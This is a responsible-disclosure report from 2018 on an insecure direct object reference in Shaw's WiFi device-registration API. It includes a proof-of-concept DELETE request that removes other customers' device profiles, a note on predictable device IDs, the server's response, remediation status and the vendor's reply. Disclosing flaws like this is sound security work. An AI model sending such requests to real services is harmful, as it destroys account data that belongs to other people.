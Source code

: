 ```yaml
---
layout: reports
permalink: /reports/7/
tagline: "On 10 August 2018 I discovered an Arbitrary File Deletion vulnerability on shaw.com"
image:
  feature: 
  hero: 
report-id: GWA-2018-007
---
```


## Summary

By sending a `DELETE` request to a specific API location it is possible to arbitrarily delete Shaw Go Wifi device profiles from any account.

This attack requires some authentication. For the request to be successful an `access_token` needs to be generated either from an IP associated with any Shaw customer or by remotely logging into a @shaw.ca email. The `access_token` can be used to delete device profiles even if they are associated with another account.

## Proof of Concept

We can generate `access_token` by visiting `https://wifi-registration.shaw.ca/drp/` and inspecting the response from `/api/token`.

After generating an `access_token` we can send a `delete` request, replacing `c15c0d06f00d` with the device ID. The device ID is usually either the device MAC Address or `120100██████` with `██████` being a sequentially generated hexadecimal value.

Request:
```http
DELETE /api/customer/devices/c15c0d06f00d HTTP/1.1
Host: wifi-registration.shaw.ca
Connection: close
Authorization: Bearer [access_token_redacted]
Content-Length: 26

Cookie:

[object Object]
```

Response:
```http
HTTP/1.1 200 OK
Server: nginx
Date: Fri, 10 Aug 2018 13:37:00 GMT
Content-Type: application/json
Content-Length: 50
Connection: close
Set-Cookie: txGUID=████████-████-████-████-████████████; path=/; domain=shaw.ca
Set-Cookie: WiFiCaptivePortalDetails=[REDACTED]; path=/; expires=Fri, 10 Aug 2018 13:37:00 GMT; domain=shaw.ca
Cache-Control: no-store, must-revalidate, no-cache, max-age=0
Cache-Control: no-cache
Set-Cookie: captive_env=prod

{"response_time":"0.123s","v":"2.9.11-6.899e73c0"}
```

_Some details in this response have been altered or redacted to ensure the privacy of the account owner._


## Recommended Actions

 - Implement proper access controls.

## Remediation Status

At the time of publishing this report using `access_token` generated by visiting `https://wifi-registration.shaw.ca/drp/` now result in the response `412 Precondition Failed` and `{"code":242,"message":"Invalid Device - Missing from Account: 03161234567"}`

Furthermore successful requests now show `{"response_time":"0.123s","v":"2.9.12-1.4c02e4ac"}` indicating the software version has been updated since.

## Response From Affected Party


### Response From mbxcustomerprotectio@sjrb.ca 23 Sept 2018

> We would like to thank @glitchwitch for bringing this issue to our attention. As a result of this exercise, Shaw’s WiFi device management was able to make security advancements, and we consider this matter resolved.
>
>
>
>Regards.
>
>
>
>Shaw Customer Protection Team
>
>E: Customer.Protection@sjrb.ca
>
>This message is confidential and may contain privileged information. We ask that you not use or disclose this message other than with our consent.
>
>If you are not an intended recipient, please immediately notify us and delete this message. Thank-you.
